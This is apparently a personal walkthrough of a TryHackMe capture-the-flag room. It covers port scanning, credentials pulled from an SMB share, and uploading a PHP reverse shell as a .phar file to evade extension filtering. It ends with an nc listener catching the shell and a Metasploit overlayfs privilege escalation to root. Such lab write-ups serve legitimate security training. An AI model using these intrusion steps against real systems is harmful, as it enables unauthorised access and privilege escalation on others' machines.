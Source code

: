 ```yaml
---
title: Walkthrough - Tech_Supp0rt 1
published: true
---
```


RCE, File Upload, sudo, custom. Hacking into a scammer's under-development website to foil their plans.

[https://tryhackme.com/room/techsupp0rt1](https://tryhackme.com/room/techsupp0rt1)

* * *

## Notes

- ``sudo nmap -sC -sV -sT -O -p22,80,139,445 10.10.65.37``

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.2.0
OS details: Linux 3.2.0
Network Distance: 4 hops
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2022-08-07T20:57:51
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2022-08-08T02:27:51+05:30
|_clock-skew: mean: -1h50m00s, deviation: 3h10m30s, median: -1s
```

We find a few directories with gobuster ``/test``, which is the site the scammer points their victims to, and a ``/wordpress`` site.

- ``smbclient -L`` and checking ``websvr`` we find ``enter.txt`` with some creds

```
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

It is missing the wordpress creds though.

Checking ``/wp-login.php`` and the blog posts on the website we find a username ``support``

lets check out /subrion

- ``gobuster dir -u http://10.10.249.90/subrion -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 100 --no-error -b 301,302,404``

- end up finding the panel @ ``http://techsupport.thm/subrion/panel.php`` but we have to get the magical formula for the password. I am assuming this is "cooked" with cyberchef

![0xskar](/assets/techsupp0rt1-01.png)

- now we have creds ``admin:Scam2021``
- nagivate to uploads and upload a revshell. since .htaccess disallowes certain file extensions we are using a pentestmoney php rev shell that has the ``.phar`` file extension.
- one uploaded visit ``http://techsupport.thm/subrion/uploads/shell.phar`` after setting up listener ``rlwrap nc -lvnp 6666``

- found some things running linpeas.sh

```
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rwxr-xr-x 1 www-data www-data 2992 May 29  2021 /var/www/html/wordpress/wp-config.php                                                                                     
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
define( 'DB_HOST', 'localhost' );
```

```
#   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/bpf_sign_extension_priv_esc                     Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 4   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/glibc_realpath_priv_esc                         Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 7   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.
 8   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 9   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.16 is a vulnerable build.
```


* * * 

## What is the root flag?

- ``linux/local/cve_2021_3493_overlayfs`` in msfconsole and cat root.txt

* * * 

